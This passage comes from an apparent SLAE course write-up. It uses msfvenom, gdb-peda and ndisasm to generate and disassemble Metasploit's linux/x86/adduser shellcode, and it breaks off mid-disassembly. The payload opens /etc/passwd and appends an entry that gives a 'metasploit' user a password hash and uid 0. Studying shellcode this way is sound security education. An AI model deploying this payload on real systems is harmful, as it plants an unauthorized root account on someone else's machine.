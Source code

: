 0008| 0xbffff4f4 --&gt; 0xbffff5b4 --&gt; 0xbffff702 ("/root/Documents/SLAE/Assignment5/shellcode")
0012| 0xbffff4f8 --&gt; 0xbffff5bc --&gt; 0xbffff72d ("SHELL=/bin/bash")
0016| 0xbffff4fc --&gt; 0x404040 --&gt; 0xcb89c931
0020| 0xbffff500 --&gt; 0xbffff520 --&gt; 0x1
0024| 0xbffff504 --&gt; 0x0
0028| 0xbffff508 --&gt; 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00404040 in shellcode ()</pre>
<p style="text-align:justify;">The above output is from <strong>gdb-peda</strong> which you can find it <a href="https://github.com/longld/peda">here. </a>At this point we will continue the analysis using the <strong><em>ndisasm </em></strong>tool in order to disassemble the shellcode</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment5</b></span>#  msfvenom -p linux/x86/adduser -f c -o adduser.c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
Saved as: adduser.c
<span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment5</b></span># res=`cat adduser.c | grep "\"" | sed 's/"//g;s/;//g' | sed ':a;N;$!ba;s/\n//g'`; echo -ne $res | ndisasm -u -
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E828000000        call 0x53
0000002B  6D                insd
0000002C  657461            gs jz 0x90
0000002F  7370              jnc 0xa1
00000031  6C                insb
00000032  6F                outsd
00000033  69743A417A2F6449  imul esi,[edx+edi+0x41],dword 0x49642f7a
0000003B  736A              jnc 0xa7
0000003D  3470              xor al,0x70
0000003F  3449              xor al,0x49
00000041  52                push edx
00000042  633A              arpl [edx],di
00000044  303A              xor [edx],bh
00000046  303A              xor [edx],bh
00000048  3A2F              cmp ch,[edi]
0000004A  3A2F              cmp ch,[edi]
0000004C  62696E            bound ebp,[ecx+0x6e]
0000004F  2F                das
00000050  7368              jnc 0xba